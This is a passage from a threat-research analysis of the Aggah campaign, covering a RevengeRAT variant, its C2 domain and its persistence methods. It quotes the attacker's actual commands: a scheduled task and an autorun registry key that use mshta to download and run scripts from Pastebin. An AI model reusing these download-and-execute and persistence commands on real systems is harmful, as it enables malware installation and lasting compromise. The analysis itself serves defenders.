 

SHA256
b9b67c885200f90eaf9c4911b3a7f5e6707bcb51d1b892df1bde110 13a60f6b5


Compile Time
2019-03-20 19:43:08



Table 2. Decoded payload from pastebin[.]com/raw/2LDaeHE1
This payload was written in VB.NET and named "Nuclear Explosion," which is a variant of RevengeRAT configured to use the domain "lulla.duckdns[.]org" for C2, as seen in Figure 7.
Figure 7.  RevengeRAT configuration
According to its configuration seen in Figure 8, when sending data to the C2 server, it will split the information using the string "hagga", which is the same name as the PasteBin account hosting the payload information seen in Figure 6 and the basis of the Aggah campaign name.
Figure 8. Configuration showing the string "hagga" used to split information sent to the C2 server
Creating a Scheduled Task
The script hosted at the Blogspot blog builds another command to create a scheduled task called "eScan Backup" that runs every 100 minutes. The command string generated by the script used to create this scheduled task is:
schtasks /create /sc MINUTE /mo 100 /tn eScan Backup /tr ""mshta vbscript:CreateObject(""Wscript.Shell"").Run(""mshta.exe https://pastebin[.]com/raw/tb5gHu2G"",0,true)(window.close)"" /F '
The “eScan Backup” task will use the built-in mshta application to download a script from a Pastebin URL, specifically at hxxps://pastebin[.]com/raw/tb5gHu2G that we will continue to refer to as the tb5gHu2G script. We believe the actors chose the name “eScan Backup” to appear related to the eScan antivirus products. Figure 9 shows the scheduled task in Windows’ Task Scheduler program.
Figure 9. Scheduled task created to reach out to Pastebin URL and run the hosted script every 100 minutes
The scheduled task downloading and running the tb5gHu2G script is meant for persistence, as it runs the same command to hamper Windows Defender and kill Office applications. The tb5gHu2G script also attempts to run the same VBScript as the script hosted on the Blogspot blog, of which downloads and executes the payload from the “2LDaeHE1” Pastebin page shown in Figure 6. Figure 10 shows the Pastebin page hosting the tb5gHu2G script.
Figure 10. tb5gHu2G Pastebin page
Creating an Autorun Registry Key
The script hosted at the Blogspot blog creates an autorun registry key, which appears to be a second persistence mechanism to supplement the previously mentioned scheduled task. To create the autorun key, the script generates the following command that it will attempt to run:
CreateObject("Wscript.Shell").regwrite "HKCU\Software\Microsoft\Windows\CurrentVersion\Run\MicrosoftUpdate", "C:\Windows\System32\mshta.exe vbscript:CreateObject(""Wscript.Shell"").Run(""mshta.exe%20http://pastebin[.]com/raw/YYZq1XR0"",0,true)(window.close)" , "REG_EXPAND_SZ"
This run key will attempt to download the contents hosted at yet another Pastebin URL of http://pastebin[.]com/raw/YYZq1XR0
and run the contents as a script using the Wscript.Shell object. Figure 11 shows the Pastebin page displaying the contents of the script.
Figure 11. YYZq1XR0 Pastebin page
The YYZq1XR0 Pastebin paste contains the following script that does very little:
<script language="VBScript">
self.close
</script>
The fact that the above script does so little suggests that the actor may update this paste with a new script containing additional functionality when desired. The editing of pastes is possible if the paste was created using a "Pro" account. These pastes were created by an account named HAGGA, which appears to be a PRO account that would allow the actor to update the script to run on infected systems. HAGGA has several additional pastes as well as seen below in Figure 12. These pastes contain additional malicious scripts that are ultimately used to create a payload.
Figure 12. Hagga’s Pastebin page
Part of a Larger Campaign?